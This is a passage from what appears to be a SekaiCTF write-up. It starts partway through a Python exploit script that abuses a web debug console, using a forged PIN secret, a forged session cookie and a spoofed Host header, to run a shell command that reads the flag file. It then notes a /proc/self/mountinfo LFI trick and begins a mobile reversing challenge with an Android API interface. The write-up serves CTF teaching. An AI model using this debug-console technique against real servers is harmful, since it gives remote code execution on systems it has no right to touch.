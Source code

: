 ```python
    
def get_flag():
    cmd = '__import__("os").popen("cat /flag*").read()'
    r = session.get(URL + f"console?__debugger__=yes&cmd={quote(cmd)}&frm=0&s={secret}", cookies=debug_session, headers={"Host":"127.0.0.1"})
    m = re.findall(r'SEKAI{.*}', r.text)
    flag = m[0]
    print(f"[*] Your flag is: {flag}")
    
get_mac_address()
get_machine_id()
get_pin()
get_debug_secret()
get_debug_session()
get_flag()
```

![image](https://hackmd.io/_uploads/Skv6uUeFex.png)

### Bonus

After looking at some solutions, many people used /proc/self/mountinfo or /proc/self/mounts to view files. Of course this method only stops at the LFI bug and if the flag file is not located at root then it's difficult

![image](https://hackmd.io/_uploads/S1AX4dgYgg.png)

## rev/Sekai Bank - Signature

This is a quite basic Mobile challenge. Reading the source I immediately see the flag endpoint

```java
public interface ApiService {
    @PUT("auth/pin/change")
    Call<ApiResponse<Void>> changePin(@Body PinRequest pinRequest);

    @GET("user/search/{username}")
    Call<ApiResponse<User>> findUserByUsername(@Path("username") String str);

    @GET("user/balance")
    Call<ApiResponse<BalanceResponse>> getBalance();

    @POST("flag")
    Call<String> getFlag(@Body FlagRequest flagRequest);

    @GET("user/profile")
    Call<ApiResponse<User>> getProfile();

    @GET("transactions/recent")
    Call<ApiResponse<List<Transaction>>> getRecentTransactions();

    @GET("transactions/{id}")
    Call<ApiResponse<Transaction>> getTransaction(@Path("id") String str);

    @GET("transactions")
    Call<ApiResponse<List<Transaction>>> getTransactions(@Query("page") int i, @Query("limit") int i2);

    @GET("user/profile")
    Call<ApiResponse<User>> getUserProfile();

    @GET("health")
    Call<ApiResponse<HealthResponse>> healthCheck();
```
